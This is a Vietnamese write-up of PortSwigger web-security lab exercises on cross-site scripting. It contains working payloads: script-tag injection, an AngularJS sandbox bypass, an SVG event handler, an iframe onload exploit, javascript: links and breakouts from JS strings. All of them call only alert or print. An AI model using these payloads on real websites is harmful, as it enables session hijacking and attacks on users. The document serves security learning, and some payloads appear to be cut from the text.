# REFLECTED XSS
## Lab 1: Reflected XSS into HTML context with nothing encoded

__XSS phản hồi, chèn thẳng vào HTML mà không hề được mã hoá__



Lab yêu cầu thực thi hàm `alert` 


Khi search một từ khóa nó sẽ được hiển thị lại 


Khi xem trong DevTool thì thấy từ khóa đó được xuất hiện trong thẻ `h1`


Khi chỉnh sửa payload thành `<script>alert('xss')</script>` thì thấy hàm được nằm ngay trong thẻ `h1`


Hiện popup là kết quả của hàm `alert`



## Lab 2: Stored XSS into HTML context with nothing encoded

__Stored XSS được nhét thẳng vào HTML mà không encode__



Lab yêu cầu chèn code *Java Script* vào phần bình luận và làm nó thực thi mỗi khi có người vào xem bình luận


Post một comment vào bài viết



Khi vào xem comment đó thì thấy nó được hiển thị trong thẻ `h`



Gửi một bình luận với nội dung: `<script>alert('xss')</script>`


Khi vào lại trang bình luận thì thấy popup `XSS` là kết quả của hàm `alert`


## Lab 3: Reflected XSS into HTML context with most tags and attributes blocked

__Reflected XSS trong ngữ cảnh HTML, nhưng hầu hết thẻ và thuộc tính đã bị chặn__



Lab yêu cầu thực hiện hàm `print` trong khi web chặn hầu hết các thẻ và thuộc tính



Khi dùng payload `<script>alert('xss')</script>` thì web chặn: **"Tag is not allowed"**

Chuyển payload sang `Intruder` và lấy list tag ở [XSS CheatSheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)



--> Start attack


Hầu hết tất cả các tag đều bị chặn (`400`) nhưng có tag `body` và `custom tags` trả về `200`

# DOM BASE XSS

## Lab 1: DOM XSS in `document.write` sink using source `location.search`

__DOM XSS trong `document.write` sink sử dụng nguồn `location.search`__



Trang web sử dụng `document.write` để ghi nội dung từ `location.search`
Để giải solve lab sử dụng `XSS` để thực thi hàm `alert`



Tìm kiếm một từ khóa 


Tìm kiếm từ khóa ở trong source thì thấy nó ở trong thẻ ```<h1>```



Script sử lí:
```JS
function trackSearch(query) {
    document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```

--> Hàm `trackSearch` dùng để chuyển hướng trang web bằng cách nối URL `/resources/images/tracker.gif?searchTerms=` rồi cộng với tham số `query`
--> Biến `query` được lấy từ tham số `search` trên URL
--> Nếu người dùng truyền payload độc thì có thể thực thi JS


```JS
document.write('');

```


```HTML
 <script>alert(1)</script>'">

```

--> Tìm kiếm bằng payload `'> <script>alert(1)</script>` để phá được request gốc



Khi tìm kiếm bằng payload này thì vẫn chưa popup được hộp thoại `alert` lên
--> Thấy ở trên có hiện `''> <script>alert(1)</script>'`
--> Thừa dấu `'` --> Chưa thoát được ra 



Đổi payload từ `'` sang `"`
--> Thấy có popup hiện lên 
--> Thành công 


_Nguyên nhân: web sử dụng __document.write()__ để chuyển hướng web bằng cách lấy thẳng tham số từ trường tim kiếm của người dùng_

## Lab 2: DOM XSS in document.write sink using source location.search inside a select element

__DOM XSS trong `document.write` sink sử dụng nguồn `location.search` bên trong phần tử select_



- Lab này chứa một lỗ hổng DOM-based XSS trong chức năng kiểm tra hàng tồn kho.
Nó dùng JavaScript `document.write` để ghi dữ liệu lên trang.
- Hàm `document.write` này được gọi với dữ liệu lấy từ `location.search` – và bạn có thể điều khiển dữ liệu này thông qua URL của website.

- Dữ liệu đó được bao trong một thẻ `<select>`.

- Để hoàn thành lab, bạn cần thực hiện một cuộc tấn công DOM XSS bằng cách thoát ra khỏi thẻ `<select>`, sau đó gọi hàm alert()


Thao tác để kiểm tra số lượng tồn kho của sản phẩm



Nhận được response gồm mã JS để xử lí kiểm tra hàng tồn kho

```JS
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
```

--> Web lấy thẳng giá trị của tham số `storeId` để chèn vào `document.write`
--> Có thể xảy ra XSS nếu truyền vào một payload có thể phá vỡ cấu trúc lệnh `HTML`

- Nếu dùng `document.write` render dữ liệu web thì tất cả `HTML` của web:
```HTML
<select name="storeId">
  <option selected>London</option>
  <option>Paris</option>
  <option>Milan</option>
</select>
```

--> Vì `<script>` không thể chạy trong thẻ `<select>`
--> Phải phá vỡ cấu trúc lệnh của `<select>` sau đó mới truyền `<script>` vào sau


Thử payload `'+</option></selected><script>alert(1)</script>`

_Giải thích:_
- Trước tiên đóng thẻ `<option>` của tham số `store`
- Sau đó đóng thẻ `<select>`
- Tiếp theo chèn `<script>` hàm `alert` vào


Kết quả, hàm `alert` đã được thực thi



Nhưng khi truyền vào payload thì vẫn chưa solve lab

--> Bởi vì đây chỉ là request backend trả về số lượng hàng tồn kho, không phải là request render ra HTML

--> Tìm request render ra HTML để có thể trigger được XSS



Thấy được request `GET /product?productId=1` trả về HTML

--> Để xảy ra XSS thì chèn thêm tham số `storeId` vào bởi script lấy giá trị của `storeId` làm giá trị đầu vào



Thêm tham số `storeId` và giá trị của nó `storeId=London"</option></select><script>alert(1)</script>` 


_Nhận xét: Trang web vẫn lấy thẳng giá trị từ người dùng nhập vào để truyền thẳng vào hàm `document.write` khiến cho web có thể xảy ra XSS nếu kẻ tấn công chèn chuỗi đầu vào phá vỡ cấu trúc lệnh_
_Khi muốn XSS xảy ra cần phải tìm request render HTML chứ không phải là request JS_

## Lab 3: DOM XSS in innerHTML sink using source location.search

__DOM XSS trong sink `innerHTML` sử dụng nguồn `location.search`__


- Bài lab này chứa một lỗ hổng XSS dạng DOM trong chức năng tìm kiếm của blog. Nó sử dụng một phép gán `innerHTML`, phép gán này thay đổi nội dung HTML của một phần tử div bằng dữ liệu lấy từ `location.search`.

- Để hoàn thành bài lab, hãy thực hiện một cuộc tấn công XSS gọi hàm `alert`.


Tìm kiếm một từ khóa bất kì\
--> Nó hiển thị ở trong thẻ `<h1>`


```JS
function doSearchQuery(query) {
	document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	doSearchQuery(query);
}
```

Hàm này có chức năng lấy giá trị của tham số `search` trên URL gán vào biến `query`--> nếu có tham gia trị của `query`--> gọi hàm `doSearchQuery`\
Hàm `doSearchQuery`sử dụng `innerHTML` để thay đổi HTML trong phần tử `searchMessage` bằng giá trị của `query`

Thuộc tính `innerHTML` không parse JS nhưng nó có thể parse HTML vào thẳng --> XSS các thẻ event như `onerror`, `onclick`, ...



Tìm kiếm với payload ``


Xuất hiện popup của hàm `alert`


Kiểm tra trong Devtools thì thấy giá trị của tham số `search` được chèn thẳng vào HTML của web\
--> Nguyên nhân gây ra XSS


_Nhận xét: web đã lấy thẳng giá trị do người dùng truyền vào để dùng thuộc tính `innerHTML` đẻ có thể thay đổi HTML trực tiếp trên web_

## Lab 4: DOM XSS in jQuery anchor href attribute sink using location.search source

__DOM XSS trong thuộc tính `href` của thẻ `anchor jQuery` sử dụng nguồn `location.search`__


- Bài lab này chứa một lỗ hổng XSS dạng DOM trong trang `submit feedback`. Nó sử dụng hàm chọn phần tử `$` của thư viện _jQuery_ để tìm một thẻ anchor, và thay đổi thuộc tính href của thẻ này bằng dữ liệu lấy từ `location.search`.

- Để hoàn thành bài lab, hãy làm cho liên kết _"back"_ hiển thị giá trị `document.cookie`


Vào trang submit feedback, gửi 1 feedback để lấy request



Khi gửi feedback lên thì web thông báo đã thành công và có nút `Back` để quay trở lại 


Khi ấn nút `Back` thì trở về `/`



Flow khi đăng feedback là trước khi submit lên sẽ có một `returnPath` được gán mặc định là `/` --> rồi sau đó mới gửi feedback lên


Trong JS của request `/feedback?returnPath=/` có đoạn xử lí gán link cho nút `Back` bằng cách dùng hàm `attr()` trong _jQuery_

```JS
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```
--> Hàm này cho phép tìm phần tử có tên là `backLink` và gán giá trị của `returnPath` vào cho `backLink`




--> Khi ấn vào nút `Back` thì nó sẽ chuyển hướng đến `/` của web


Thử thay đổi giá trị của tham số `returnPath`\
Thì sau khi ấn nút `Back` nó sẽ return về `https://example.com`


Khi kiểm tra DOM thì thấy `https://example.com` đã nằm trong source `href` mà thuộc tính này có thê chạy được lệnh JS bẳng cách `javascript:lệnh`




Thêm mã JS vào URL\
--> Hiển thị popup của `alert`



_Nhận xét: Lab này cho thấy web đã bị XSS do lấy thẳng data từ người dùng rồi truyền thẳng vào thuộc tính `href` --> Dẫn đến thực thi mã JS trong thẻ `href`_

## Lab 5: DOM XSS in jQuery selector sink using a hashchange event

__DOM XSS trong sink bộ chọn jQuery sử dụng sự kiện hashchange_


- Lab này chứa một lỗ hổng _DOM-based XSS_ trên trang chủ.
Nó sử dụng hàm selector `$()` của __jQuery__ để tự động cuộn (auto-scroll) tới một bài viết, dựa vào tên bài viết được truyền qua `location.hash`.

- Để hoàn thành bài lab, bạn cần gửi một exploit cho nạn nhân sao cho trình duyệt của họ chạy hàm `print()`.


Truy cập vào trang web


Check thì thấy có đoạn web xử lí `fragment`:

```JS
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

Flow: 
- `' + decodeURIComponent(window.location.hash.slice(1)) + '` đoạn này lấy nguyên `fragment` và sau đó bỏ đi dấu `#`
- `section.blog-list h2:contains`: chọn thẻ `<section>` có class `blog-list` và chọn tất cả `<h2>` trong class đó có chứa chuỗi `fragment` vừa rồi
- Gán vào biến `post`
- Nếu có `post` thì sẽ thực hiện hành động cuộn tới trang có fragment đó mà không cần phải load lại trang

--> Tức là đoạn script này có tác dụng là nếu có thay đổi về `fragment` thì sẽ thực hiện hành động cuộn trang\
--> Dựa vào việc cứ có thay đổi về `fragment` thì thực hiện hành động thì ta có thẻ làm cho trang web thực hiện cả hành động khác bằng cách thay đổi `fragment` sao cho nó có thể phá vỡ cấu trúc của mã rồi thực hiện hành động không mong muốn của web




Khi chèn vào URL `` thì popup của `alert` hiện lên --> XSS

--> Bây giờ đề bài yêu cầu tự tạo một HTML trên máy chủ exploit để có thể tự động kích hoạt XSS nếu victim ấn vào link



Tạo HTML:
```HTML
<iframe src=https://0aff00a503c4ec4d80e09e0700df0090.web-security-academy.net/# onload="this.src+='' ">
```

Flow:
- Dùng iframe để chèn trang web có lỗ hổng vào trang hiện tại
`https://0aff00a503c4ec4d80e09e0700df0090.web-security-academy.net/#`
Thừa dấu `#` là do để ta sẽ nối chuỗi payload đằng sau vào để thành một `fragment`
- Dùng event `onload` để thực thi hành động payload\
`this.src+=''`
= `https://0aff00a503c4ec4d80e09e0700df0090.web-security-academy.net/#`

--> Tức là cứ khi truy cập link, người dùng sẽ tải vể trang web có lỗ hổng và sau khi tải xong sẽ thực thi event `onload` hành động không mong muốn tạo ra XSS



Khi truy cập link sẽ tự động thực thi

Nhưng đề yêu cầu thực thi hàm `print`\
--> Sửa payload thành hàm `print`



Sau khi sửa payload đã thự thi


Gửi cho victim để solve lab

_Nhận xét: Lab đã code chức năng xử lí fragment không có xác thực, kiểm tra khiến dữ liệu từ người dùng được đưa thẳng vào và render ra HTML của web dẫn đến XSS_

## Lab 6: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

_DOM XSS trong biểu thức AngularJS khi dấu < > và dấu nháy đôi bị HTML-encode_

- Lab này chứa một lỗ hổng _DOM-based XSS_ trong một biểu thức _AngularJS_ nằm trong chức năng tìm kiếm.

- _AngularJS_ là một thư viện JavaScript phổ biến, nó sẽ quét nội dung của các thẻ HTML có chứa thuộc tính _ng-app_ (còn gọi là directive của AngularJS). Khi directive này xuất hiện trong mã HTML, bạn có thể chạy các biểu thức JavaScript nằm trong cặp dấu ngoặc nhọn kép {{ ... }}.

- Kỹ thuật này rất hữu ích khi các dấu `< >` (angle brackets) bị mã hóa HTML và không thể dùng trực tiếp.

- Để hoàn thành bài lab, bạn cần thực hiện một tấn công XSS bằng cách chạy một biểu thức _AngularJS_ và gọi hàm `alert`


Vào web thấy có chức năng tìm kiếm



Tìm kiếm một từ khóa ngẫu nhiên và thấy nó được xuất hiện trong thẻ `<h1>`


Khi dùng thử payload `<script>alert('xss')</script>`\
--> Thấy web render thẳng ra chuỗi chứ không thực thi script    




Thử nhập payload với dạng encode của dấu `<` là `&lt` thì thấy web sử lí nó là dạng decode ra dấu `<`



Khi vào source code thì thấy web frontend được xây dựng bằng framework AngularJS\
--> Mà trong AngularJS cho phép thực thi mã JS trong `{{}}`


Khi dùng với payload `{{1+11}}` web đã thực thi câu lệnh bên trong đó và render ra kết quả của phép tính `1+11`


Truyền thẳng hàm `alert` vào bên trong `{{}}`\
Thấy web không render ra chuỗi nhưng lại không hiện lên popup của hàm `alert`\
Được biết AngularJS cũng có cơ chế bảo vệ, không cho thực thi trực tiếp những hàm không ở trong sandbox safe list\
--> Hàm `alert` có thể đã bị sandbox chặn và không thực thi

--> Tìm hiểu thêm thì có một cách để bypass việc check hàm trong sandbox, đó chính là khai báo hàm ẩn danh bằng cấu trúc:
```JS
constructor.constructor("alert(1)")()
```




Với payload:
```JS
{{constructor.constructor("alert(1)")()}}
```
Thì hàm `alert` đã được thực thi


--> Solve lab

_Nhận xét: Dù web đã encode `<>` nhưng vẫn thực thi được JS bằng `{{}}`_

## Lab 7: Reflected DOM XSS


- Lỗ hổng kiểu này xảy ra khi ứng dụng phía server nhận dữ liệu từ request, rồi phản hồi lại (echo) dữ liệu đó trong response. Sau đó, một đoạn script trên trang lại tiếp tục xử lý dữ liệu phản chiếu đó theo cách không an toàn, cuối cùng ghi nó vào một “sink nguy hiểm” → XSS.
- Để giải lab, hãy tạo một payload/injection sao cho trình duyệt nạn nhân gọi được hàm `alert`.


Search thử một từ khóa ngẫu nhiên


Check source thì thấy có nó được hiển thị trong thử `h1` và có một đoạn mã JS có tên là `searchResults.js`



Truy cập thì thấy mã nguồn:
```JS
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            blogList.innerHTML += "<br/>";

            if (searchResult.title) {
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```

- Đoạn code này thực hiện việc gửi request đến server: 
```JS
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        eval('var searchResultsObj = ' + this.responseText); // 
        displaySearchResults(searchResultsObj);
    }
};
```
Nó trả vể response của request, sau đó dùng eval để định nghĩa một HTML thực hiện việc gán cho biến `searchResultsObj` response server trả về từ request vừa rồi



Response trả về có dạng:
`{"results":[],"searchTerm":"__search_text__"}`
Vậy nên nguyên đoạn thực hiện hàm eval kia có dạng:
```JS
var searchResultsObj = {"results":[],"searchTerm":"__search_text__"}
```

Vì nó không có bất kì kiểm tra nào nên có thể phá vỡ cấu trúc của response và chèn JS không mong muốn vào\
Ví dụ từ khóa mình tìm kiếm là: test_1231\
Thì hàm eval trả về:
```JS
var searchResultsObj = {"results":[],"searchTerm":"test_1231"}
```

Nhưng muốn phá vỡ thì đóng dấu ngoặc vào trước rồi inject thêm mã JS\
Từ tìm kiếm: `test_1231"};alert(1)//`\
Thì hàm eval lại trả về:
```JS
var searchResultsObj = {"results":[],"searchTerm":"test_1231"};alert(1)//"}
```

--> Đã phá vỡ được cấu trúc của hàm và thực hiện được hành động không mong muốn



Khi thử tìm kiếm bằng payload trên thì vẫn chỉ render ra nguyên đoạn text tìm kiếm, không thực thi hàm `alert`



Nguyên nhân không xảy ra XSS là do trước khi truyền vào JSON, nó đã vô hiệu hóa dấu `"` (dùng để phá cấu trúc) bằng kí tự `\`


Khi nhập kí tự `\` vào tìm kiếm, respose trả về 
```JSON
{
    "results":[],
    "searchTerm":"\"}
```
Nó đã phá vỡ cấu trúc của JSON bằng dấu `\` khiến dấu `"` bị biến thành một kí tự bình thường, không còn là dấu `"` để đóng nữa\
--> Lỗi JSON dẫn đến lỗi câu lệnh JS



Dẫn đến việc server không trả về cả đoạn `0 search results for...`




Dùng payload `\"-alert(1)}//` và thành công gọi được hàm `alert`

## Lab 8: Stored DOM XSS


- Lab này mô tả một lỗ hổng DOM XSS dạng _stored_ trong chức năng comment của blog.
- Để hoàn thành lab, hãy khai thác lỗ hổng này để gọi hàm alert()


Khi post một comment, comment sẽ được lưu trên server, mỗi khi vào bài viết, nó sẽ xuất hiện ở đó


Thấy có một hàm thực hiện việc tải và render comment
`loadCommentsWithVulnerableEscapeHtml.js`

_Nội dung:_
```JS
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let avatarImgElement = document.createElement("img");
            avatarImgElement.setAttribute("class", "avatar");
            avatarImgElement.setAttribute("src", comment.avatar ? escapeHTML(comment.avatar) : "/resources/images/avatarDefault.svg");

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(avatarImgElement);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = escapeHTML(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```


Post một comment với nội dung là `test` và tác giải là `test`


Check DOM và thấy nội dung được hiển thị trong class `comment`



Điền thử một payload `<script>alert(1)</script>` thì thấy web render ra chỉ có thẻ mở `<script>` còn thẻ đóng đã bị escape



Khi đổi thành payload `<<script>alert(1)</script>`\
Thì web render ra mỗi dấu `<` còn trong DOM  lại bị escape thành `<script&gt;alert(1)< script=""></script&gt;alert(1)<>`\
Những kí tự `<` hoặc `>` đầu tiên được encode thành `&lt;` và `&gt;`




Vì hàm escape chỉ encode duy nhất dấu `<>` đầu tiên mà nó gặp\
--> Chỉ cần để thừa một dấu `<>` ở đầu thì có thể bypass được hàm escape này\
--> Thấy được phần `script` đằng sau vẫn y nguyên không bị encode

Nhưng dù đã chèn được thẻ script vào rồi nhưng vẫn không thực thi hàm `alert` bởi vì hàm này sử dụng `innerHTML` không tự động thực thi hàm `alert`\
--> Cần sử dụng một payload có thể tự động thực hiện hàm\
--> Dùng thẻ ``





Với payload `<>` web đã thực thi JS



# Cross-site scripting contexts

## Lab 1: Reflected XSS into HTML context with most tags and attributes blocked

__Reflected XSS vào ngữ cảnh HTML với hầu hết các thẻ và thuộc tính bị chặn__



- Lab này có một lỗ hổng _reflected XSS_ trong chức năng tìm kiếm, nhưng nó dùng WAF để chặn các kiểu XSS phổ biến.

- Để hoàn thành lab, hãy thực hiện một XSS gọi được hàm print()


Search thử và kết quả trả về ở trong thẻ `<h1>`




Thử với payload `<script>alert('xss')</script>` thì server đã chặn\
__Tag is not allowed__

Lab nói là hâu hết các thẻ và thuộc tính bị chặn nhưng hầu hết chứ chưa chặn hết

--> Bruceforce xem còn thẻ nào được phép hoạt động


Sử dụng danh sách thẻ và thuộc tính của `PortSwigger` để có thể thử




Khi thử các thẻ thì thấy thẻ `<body>` vẫn trả vể `200` --> nó vẫn hoạt động


Khi test với thẻ `<body>` thì ok

## Lab 2: Reflected XSS with some SVG markup allowed

__Reflected XSS với một số thẻ SVG được phép_


Lab này có một lỗ hổng XSS phản xạ đơn giản. Website đang chặn các thẻ HTML phổ biến như `<script>` hay các sự kiện quen thuộc, nhưng lại bỏ sót một số thẻ và sự kiện của _SVG_. Vì vậy, mình có thể lợi dụng phần _SVG_ còn được phép để chèn mã độc. Nhiệm vụ của lab là thực hiện một cuộc tấn công XSS bằng cách đưa vào payload SVG phù hợp sao cho trình duyệt thực thi được hàm `alert()`




Khi chèn thẻ `<script>` vào thấy server chặn lại và trả về `Tag is not allowed`


Dùng danh sách tag của `PortSwigger` để có thể check xem còn những tag nào được chấp nhận


Khi chạy xong `Intruder` thì thấy còn vài tag vẫn hoạt động được, có thẻ `<svg>`


Thẻ `<svg>` lại có một số thẻ con khác ở trong nó như: `animate`, `animatemotion`, `animatetransform`


Sử dụng payload `<svg><animatemotion onbegin=alert(1)>hello</svg>`



Popup của hàm `alert` được hiện lên



## Lab 3: Reflected XSS into attribute with angle brackets HTML-encoded

__Tấn công Reflected XSS vào thuộc tính khi các dấu ngoặc nhọn bị mã hóa HTML__




Bài nói rằng những dấu `<` `>` đã được encode hết, yêu cầu ta khai thác XSS để thực thi hàm `alert`



Tìm từ khóa ngẫu nhiên


Trong DOM thấy nó được xuất hiện trong thẻ `<h1>`



Thử với payload `<script>alert(1)</script>` thấy web trả về nó ở dưới dạng chuỗi chứ không dưới dạng lệnh



Trong thẻ `input` thì thấy được input từ người dung nhập vào thì được đưa thẳng vào tham số `value`

Bây giờ mục tiêu là đưa payload vào thẻ input và thực thi\
--> Phải phá vỡ cấu trúc và chèn mã JS

Payload: `hello" onmouseover="alert(1)`

Lấy từ khóa `hello` rồi sau đó đóng ngoặc kép để đóng giá trị của `value` sau đó thêm mã JS là `onmouseover="alert(1)`, không có dấu ngoặc kép ở đầu là vì trước đó đã thừa một dấu `"`


## Lab 4: Stored XSS into anchor href attribute with double quotes HTML-encoded

__Tấn công Stored XSS vào thuộc tính `href` của thẻ `<a>` khi các dấu ngoặc kép bị mã hóa HTML__



Lab yêu cầu khai thác lỗ hổng XSS khi mà người dùng click vào tên tác giả bình luận



Post 1 comment thì yêu cầu nội dung, tên, email, và trang web


Khi xem lại comment thì thấy trường trang web có sử dụng thẻ `href` để liên kết trang web của người đó vào

Mà `href` lại có chức năng thực thi thẳng JS bằng cách thêm `javascript:lệnh` mà web lại truyền thẳng input của người dùng vào\


Thêm một comment với trường web có nội dung `javascript:alert(1)`


Khi click vào tên của tác giả bình luận thì nổi lên popup của hàm `alert`


## Lab 5: Reflected XSS in canonical link tag

__Tấn công Reflected XSS vào thẻ liên kết canonical__


payload: `https://0a75001c047987008028035b00a50098.web-security-academy.net/?'accesskey='x'onclick='alert(1)`

## Lab 6: Reflected XSS into a JavaScript string with single quote and backslash escaped

__Tấn công Reflected XSS vào một chuỗi JavaScript khi dấu ngoặc đơn và dấu gạch chéo ngược bị escape__



Lab yêu cầu khai thác XSS khi mà dấu `()` và `/` bị escape




Khi tìm kiếm một từ khóa nó được xuất hiện trong `<h1>` và nó được gán vào một biến `searchTerms` trong đoạn mã JS bên dưới nhằm thực hiện việc theo dõi xem người dùng tìm kiếm từ khóa gì bằng cách gửi một request tải một ảnh cực kì nhỏ cỡ _1x1_ để gửi request lên server




Khi tìm kiếm bằng `<script>alert(XSS)</script>` thì web trả về dưới dạng 1 xâu chứ không thực hiện lệnh, nhưng có thể thấy web tự nhiên in ra vài dữ liệu rác dưới phần tìm kiếm

Khi kiểm tra DOM thì thấy JS đã bị thẻ đóng `</script>` chèn ngang\
--> Bị cắt mất lệnh nên thực ra phần rác kia là câu lệnh của đoạn JS cũ\
--> Có thể cắt lệnh của JS cũ và chèn JS mới vào 




Dù đã thấy `alert()` ở trong `<script>` nhưng vẫn chưa thấy popup bởi vì bài đã nói backslash bị esscape\
--> Dùng thẻ khác để kích hoạt popup: ``


Với payload `</script>`, web đã thực thi hàm `alert` 


## Lab 7: Reflected XSS into a JavaScript string with angle brackets HTML encoded

__Tấn công Reflected XSS vào một chuỗi JavaScript khi dấu ngoặc nhọn bị mã hóa HTML__



Lab cho biết toàn bộ dấu ngoặc nhọn `<>` đều được encode\
--> Nhưng thẻ như `<script>`, ``, ... đều không hoạt động



Bài vẫn sử dụng một hàm JS để có thể theo dõi truy vấn khi người dùng tìm kiếm


Thử payload `x' onerror=alert()>\\` để phá vỡ cấu trúc của `` nhưng trong payload đó vẫn tồn tại dấu `>` mà đề bài đã encode



Dấu `>` bị đổi thành `&gt`

--> Payload không được tồn tại `<>`

Biến `searchTerms` được gán giá trị bằng đầu vào người dùng nhập vào
--> Gán cho nó giá trị mà nó thực hiện được hàm `alert` bằng phép trừ




Với payload `'-alert()-'`--> biến `searchTerms=''-alert()-''` dù nó lỗi cú pháp nhưng nó lại thực hiện hàm `alert()` trước nên payload vẫn hoạt động


## Lab 8: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

__Reflected XSS chèn vào một chuỗi JavaScript, trong đó dấu ngoặc nhọn `< >` và dấu ngoặc kép `"` bị mã hóa HTML, còn dấu nháy đơn `'` thì bị escape__


Khi điền vào payload: `hello'` có chứa dấu nháy đơn để thoát ra khỏi chuỗi thì nó bị thêm dấu `\` ở đầu khiến cho dấu `'` trở thành kí tự bình thường chứ không phải để đóng chuỗi nữa



Khi nhập payload `\';` thì web gán vào biến `searchTerms= '\\';';`\
Đúng thì web phải coi kí tự `\` cũng là một kí tự bình thường nhưng ở đây, web chỉ cho thêm 1 dấu `\` để có thể vô hiệu hóa dấu `'`, còn dấu `\` payload đưa vào thì không hề được thêm 1 dấu `\` khác để vô hiệu hóa nó\
--> Ở đây, dấu `\` của web gen ra đã bị dấu `\` của payload đưa vào vô hiệu hóa ngược lại và khiến nó trở thành một dấu `\` bình thường, không còn tác dụng vô hiệu hóa dấu `'` của payload nữa




Khi chèn vào payload: `\';print();//` thì thấy biến 
```JS
searchTerms = '\\';print();//';
```
Ở đây, dấu `\` của payload đã vô hiệu hóa dấu `\` của web--> Thành công phá vỡ phần khai báo biến của JS\
Sau đó chèn hàm `print()` vào rồi dùng dấu comment `//` để loại bỏ những dư thừa ở đằng sau\
Kết quả là hàm print đã được thực thi



Đổi payload thành `\';alert();//`, web đã thực thi hàm `alert`


## Lab 9: Reflected XSS in a JavaScript URL with some characters blocked

__Tấn công Reflected XSS trong URL JavaScript có một số ký tự bị chặn__


Lab yêu cầu thực thi được hàm `alert` với giá trị `1337`


Khi mình post 1 comment lên thì thấy có trường _website_ được đưa thẳng vào `href`, nên ý tưởng là chèn thẳng `javascript:lệnh` thẳng vào\
Nhưng khi chèn vào thì server đã chặn, không cho lệnh `javascript:lệnh` được post lên





Thấy trường _author_ được chứa ở trong thẻ `<a>`, ý tưởng là phá cấu trúc của `<a>` bằng payload `author</a><script>alert(1337)</script><a>`\
Nhưng khi gửi lên thì thấy web đã render toàn bộ payload đó như những chuỗi kí tự bình thường, không phải dưới dạng câu lệnh


Tương tự như trên thì thấy phần commnet ở trong thẻ `<p>`, dùng payload `hello</p><script>alert()</script><p>` đê phá vỡ cấu trúc của thẻ `<p>` nhưng tương tự như trên, web sử lí như những xâu kí tự bình thường

## Lab 10: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

__Stored XSS vào sự kiện `onclick` khi dấu ngoặc nhọn và dấu ngoặc kép bị mã hóa HTML, còn dấu ngoặc đơn và dấu gạch chéo ngược thì bị escape__


Lab yêu cầu khai thác XSS khi người dùng khác ấn vào tên của tác giả comment


Khi post comment lên thì thấy web xử lí phần điều hướng sang website của author kiểu: 
```HTML
<a id="author" href="https://example.com" onclick="var tracker={track(){}};tracker.track('https://example.com');">nvngo2c</a>
```

